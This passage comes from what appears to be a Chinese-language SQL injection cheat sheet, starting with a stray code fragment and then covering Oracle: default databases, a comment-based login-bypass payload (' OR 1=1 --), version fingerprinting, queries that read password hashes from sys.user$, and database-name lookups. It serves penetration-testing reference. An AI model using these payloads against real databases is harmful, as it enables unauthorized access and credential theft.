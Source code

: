 ```text
             cnt=0;
           }
  return 0;
}
```

### 0x03 Oracle

#### 默认数据库

```text
SYSTEM    所有版本
SYSAUX    所有版本
```

#### 注释查询

以下内容可用于注释后的其余查询：

```text
--    SQL comment

Example:
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
```

#### 测试版本

```text
SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
SELECT version FROM v$instance;

tips:
Oracle中的所有SELECT语句都必须包含一个表。
dual是一个可用于测试的虚拟表.
```

#### Database Credentials

```text
SELECT username FROM all_users;    -- 所有版本
SELECT name, password from sys.user$; --     Privileged, <= 10g
SELECT name, spare4 from sys.user$; --     Privileged, <= 11g
```

#### 数据库名

当前数据库

```text
SELECT name FROM v$database;
SELECT instance_name FROM v$instance
SELECT global_name FROM global_name
SELECT SYS.DATABASE_NAME FROM DUAL
```
